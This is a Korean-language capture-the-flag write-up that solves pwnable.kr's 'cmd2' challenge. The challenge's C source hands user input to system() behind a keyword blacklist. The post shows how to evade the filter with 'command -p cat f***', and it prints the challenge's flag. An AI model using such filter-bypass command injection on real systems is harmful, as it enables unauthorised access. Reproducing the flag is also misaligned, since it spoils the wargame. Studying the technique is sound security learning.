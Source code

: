 ```yaml
---
layout: post
title: ! "[Pwnable.kr] Toddler's Bottle - cmd2 문제풀이"
excerpt_separator: <!--more-->
comments: true
categories : [Wargame/Pwnable.kr]
tags:
  - Write-up
  - Pwnable.kr
---
```


이번에는 바로 `cmd2` 문제를 풀어보았다.  

별로 안걸릴 줄 알았는데 생각보다 생각을 오래하게 하는 문제였다.  

<!--more-->
  
문제 접속 정보는 아래와 같다.  

* ssh cmd2@pwnable.kr -p2222 (pw:flag of cmd1)

문제에 접속하면 3개의 파일을 확인할 수 있다.  

> -r-xr-sr-x  1 root cmd2_pwn 8794 Dec 21  2015 `cmd2`  
> -rw-r--r--  1 root root      586 Dec 21  2015 `cmd2.c`  
> -r--r-----  1 root cmd2_pwn   30 Jul 14  2015 `flag`  

다른 문제들이랑 동일하게 실행파일, 소스코드, flag 파일이 있다.  

`cmd2.c`의 내용은 다음과 같다.  

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "=")!=0;
	r += strstr(cmd, "PATH")!=0;
	r += strstr(cmd, "export")!=0;
	r += strstr(cmd, "/")!=0;
	r += strstr(cmd, "`")!=0;
	r += strstr(cmd, "flag")!=0;
	return r;
}

extern char** environ;
void delete_env(){
	char** p;
	for(p=environ; *p; p++)	memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
	delete_env();
	putenv("PATH=/no_command_execution_until_you_become_a_hacker");
	if(filter(argv[1])) return 0;
	printf("%s\n", argv[1]);
	system( argv[1] );
	return 0;
}
```

`cmd1` 문제의 소스코드와 거의 유사 해 보이는데, 이번에는 `delete_env()` 함수가 추가되었고, `filter()` 함수에 필터링 하는 문자도 추가되었다.  

`delete_env()` 함수는 환경변수를 `memset()` 함수를 통해 완전히 초기화 시키는 함수이다.  

`filter()` 함수의 역할은 앞의 `cmd1`과 동일하지만 이번에는 필터링 하는 문자가 조금 바뀌었다.  

가장 중요한 부분은 `/`가 필터링 되었기 때문에 `/bin/cat`을 사용할 수 없다는 것이다.  

일단 `/bin`을 사용할 수 없는 것은 `~`가 홈 디렉토리를 의미하기 때문에, `~bin`으로 대체할 수 있다.  

또한 `flag`는 앞의 `cmd1`과 같이 `f***`로 사용할 수 있다.  

여기서 문제는 `/bin/cat`을 어떻게 필터링에 걸리지 않고 실행할 수 있느냐 이다.  

한참을 인터넷을 뒤지다가 `command` 라는 명령어를 찾게 되었다.  

설명을 살펴보면 다음과 같다.  

```
$ help command
command: command [-pVv] command [arg ...]
    Execute a simple command or display information about commands.
    
    Runs COMMAND with ARGS suppressing  shell function lookup, or display
    information about the specified COMMANDs.  Can be used to invoke commands
    on disk when a function with the same name exists.
    
    Options:
      -p	use a default value for PATH that is guaranteed to find all of
    	the standard utilities
      -v	print a description of COMMAND similar to the `type' builtin
      -V	print a more verbose description of each COMMAND
    
    Exit Status:
    Returns exit status of COMMAND, or failure if COMMAND is not found.
```

여기서 `-p` 옵션을 확인하면 `use a default value for PATH that is guaranteed to find all of the standard utilities`라고 적혀있는 것을 확인할 수 있다.  

즉, `command -p COMMAND`를 입력하면 `default PATH`로 해당 명령어로 실행한다는 것이다.  

그렇다면 `command -p cat FILENAME`을 쉘에서 입력하면 아무리 `PATH`가 변경되어 있더라도 `default PATH`를 사용하기 때문에 정상적으로 `cat` 명령어가 실행 될 것이다.  

그래서 쉘에서 `command -p cat flag`를 실행 해 보았다.  

```
cmd2@ubuntu:~$ command -p cat flag
cat: flag: Permission denied
```

`Permission denied`가 나오며 `cat` 명령어가 정상적으로 실행되었다!  

이에 이를 `./cmd2`의 첫 번째 인자로 넣어주었다.  

물론 `flag`는 필터링 되어 있기 때문에 `f***`로 바꾸어 주었다.  

그 결과 아래와 같이 `flag`를 읽을 수 있었다!  

![]({{ site.baseurl }}/images/pwnable.kr/cmd2/cmd2_01.PNG)

```
cmd2@ubuntu:~$ ./cmd2 "command -p cat f***"
command -p cat f***
FuN_w1th_5h3ll_v4riabl3s_haha
```

```
FLAG : FuN_w1th_5h3ll_v4riabl3s_haha
```
